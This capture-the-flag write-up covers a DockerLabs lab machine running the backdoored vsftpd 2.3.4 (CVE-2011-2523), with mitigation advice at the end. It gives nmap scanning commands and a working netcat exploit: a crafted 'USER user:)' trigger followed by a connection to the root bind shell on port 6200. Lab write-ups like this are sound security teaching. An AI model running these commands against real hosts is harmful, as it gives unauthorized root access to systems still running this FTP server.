



# FirstHacking — DockerLabs

## Summary

FirstHacking is a very easy Linux machine on DockerLabs. The attack surface is
limited to a single FTP service running vsftpd 2.3.4, a version with a known
trojanized backdoor that spawns a root shell on port 6200 when triggered with
a crafted USER command. No privilege escalation is required — initial access
lands directly as root.

---

## Reconnaissance

Host discovery was performed with arp-scan to identify the target on the
Docker network.

```bash
arp-scan -I eth0 --localnet
```

Port scanning and service version detection were run against the identified
host.

```bash
nmap -sS -p- -sV -O --open --min-rate 5000 -n -oN scan 172.17.0.2
```



The scan returned a single open port: **21/tcp** running **vsftpd 2.3.4**.

---

## Vulnerabilities

| Service | Version | CVE |
|---|---|---|
| vsftpd | 2.3.4 | CVE-2011-2523 |

vsftpd 2.3.4 is a trojanized release distributed between June and July 2011.
The binary contains a backdoor that activates when the FTP server receives a
USER command with a value containing `:)`. On trigger, the process forks and
opens a bind shell on port 6200 running as the vsftpd user — root in this
case. No authentication is required to access the shell.

---

## Exploitation

The backdoor was triggered by sending a crafted USER command directly to the
FTP service via netcat.

```bash
echo -e "USER user:)\nPASS whatever" | nc 172.17.0.2 21
```



Upon receiving the malformed USER value, vsftpd spawned a shell process
listening on port 6200. A second netcat connection was made to retrieve it.

```bash
nc 172.17.0.2 6200
```



---

## Privilege Escalation

Not applicable. The vsftpd process runs as root. The backdoor shell inherited
those privileges, providing immediate root access upon connection.

---

## Conclusion

### Key Takeaways

- vsftpd 2.3.4 is a supply chain compromise — the malicious code was inserted
  into the official source tarball, not the running service itself.
- The backdoor does not require completing the FTP login. The trigger fires on
  the USER command before any authentication takes place.
- Bind shells spawned by the backdoor have no TTY. Commands execute but output
  may not render without a PTY upgrade.

### Mitigation

- Remove or replace vsftpd 2.3.4 immediately. Any version outside this
  specific release is unaffected.
- Verify FTP service binaries against official checksums before deployment.
- Restrict FTP access to known IP ranges via firewall rules to limit exposure
  of any service running on the host.
